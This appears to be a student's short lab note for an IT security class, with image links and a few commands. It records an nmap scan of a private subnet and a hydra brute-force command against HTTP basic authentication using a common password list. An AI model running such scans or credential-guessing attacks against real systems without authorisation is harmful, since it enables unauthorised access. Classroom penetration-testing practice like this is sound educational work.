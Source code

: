 ```yaml
---
tags:
  - 3te_Klasse
  - itsi
---
```

`nmap 192.168.56.0/24`
mit allen ports
-T4 damit keine firewallfaxen
![[Pasted image 20250117175643.png]]
![[Pasted image 20250117175813.png]]
![[Pasted image 20250117175921.png]]
![[Pasted image 20250117180005.png]]
![[Pasted image 20250117180023.png]]
![[Pasted image 20250117180037.png]]
![[Pasted image 20250117180113.png]]
![[Pasted image 20250117180209.png]]
![[Pasted image 20250117180747.png]]
![[Pasted image 20250117180729.png]]
![[Pasted image 20250117181656.png]]
github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
https://tylerrockwell.github.io/defeating-basic-auth-with-hydra/
`hydra -l user -P pw.txt -s 55487 -f 192.168.15.3 http-get /`
![[Pasted image 20250117182116.png]]
![[Pasted image 20250117182208.png]]
![[Pasted image 20250117183032.png]]
![[Pasted image 20250117183014.png]]
![[Pasted image 20250117183153.png]]
